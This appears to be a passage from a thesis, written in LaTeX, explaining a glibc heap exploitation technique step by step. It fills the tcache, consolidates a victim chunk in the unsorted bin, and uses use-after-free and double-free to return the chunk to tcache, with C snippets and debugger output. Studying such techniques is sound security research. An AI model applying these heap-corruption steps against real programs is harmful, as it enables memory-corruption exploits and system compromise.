 \documentclass{masterthesis}
\newcommand*\tch{tcache}
\newcommand*\ub{unsorted bins}
\begin{document}
The next step is to define a chunk to merge ‘prev’, and define the victim ‘a’, also, we define a small chunk to prevent merge chunks with the top chunk after free. 

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *prev = malloc(0x100);
intptr_t *a = malloc(0x100);
malloc(0x10);
\end{lstlisting}

As we mention, we need to fill up \tch{}, so , we perform the free function on the 7 chunks, as the result, heap manager force to use the \ub{} and other bins:

\begin{lstlisting}[language=c,frame=tlrb]
for(int i=0; i<7; i++){
    free(x[i]);
  }
\end{lstlisting}

Now the tcahe is full. We perform the free function on the ‘prev’ and ‘a’.

\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(prev);
\end{lstlisting}

The result of the above is to consolidate the ‘prev’ chunk with the victim ‘a’. Attention to the size and the address of the chunk :

\begin{lstlisting}[language=c,frame=tlrb]
Before:
unsorted_bins[0]: fw=0x555555559b10, bk=0x555555559b10
Chunk(addr=0x555555559b20, size=0x110, flags=PREV_INUSE)

After
unsorted_bins[0]: fw=0x555555559a00, bk=0x555555559a00
Chunk(addr=0x555555559a10, size=0x220, flags=PREV_INUSE)
 \end{lstlisting}

\begin{figure}[h!]
  \caption{LIBC}
\end{figure}

In the next step with the help of UAF and double-free attack we put back the victim in the \tch{}

\begin{lstlisting}[language=c,frame=tlrb]
malloc(0x100);
free(a);
\end{lstlisting}
\end{document}
